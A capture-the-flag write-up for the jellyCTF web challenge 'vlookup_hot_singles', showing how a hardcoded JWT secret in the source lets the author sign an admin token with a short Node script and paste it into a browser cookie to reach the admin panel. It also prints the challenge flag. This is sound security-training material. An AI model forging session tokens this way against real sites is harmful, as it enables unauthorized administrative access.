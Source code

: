 # vlookup_hot_singles

**Difficulty**: Easy

**Points earned**: 100

**Description**:

> looks like this is some kind of dating site for nerds? weird, figure out who the admin is and access their panel
> 
> 50 point hint: what to do, but not how to do it
> 
> Author: arepi
> 
> https://vlookup-hot-singles.jellyc.tf/

![vlookup_hot_singles website](./images/vlookup_hot_singles.png "vlookup_hot_singles")

**Solution**: Forge a JWT to access the admin panel.

The source code gives us some hints about what the JWT should look like:

```python
JWT_SECRET = "singaQu5aeWoh1vuoJuD]ooJ9aeh2soh"

def is_admin(token):
    data = jwt.decode(token, JWT_SECRET, algorithms=["HS256"])
    return data["user"] == "jelly"
```

I wrote a Node script to generate the JWT:

```js
 const sign = require('jwt-encode');
 const secret = 'singaQu5aeWoh1vuoJuD]ooJ9aeh2soh';
 const data = {
     user: "jelly"
 };
 const jwt = sign(data, secret);
 console.log(jwt);
```

Which gives me `eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoiamVsbHkifQ.7wQ41K0c7OZqWaePlf3v0QKuX-jOc4kFqks_eWrfQhE`.

Then I opened Chrome devtools and went to cookies under Application > Storage. Paste the encoded JWT into the token value field and then you should be able to access the admin panel.

![vlookup_hot_singles solution](./images/vlookup_hot_singles_sol.png "vlookup_hot_singles solution")

**Flag**: `jellyCTF{i_am_b3c0m3_awawa_d3str0y3r_0f_f3m4135}`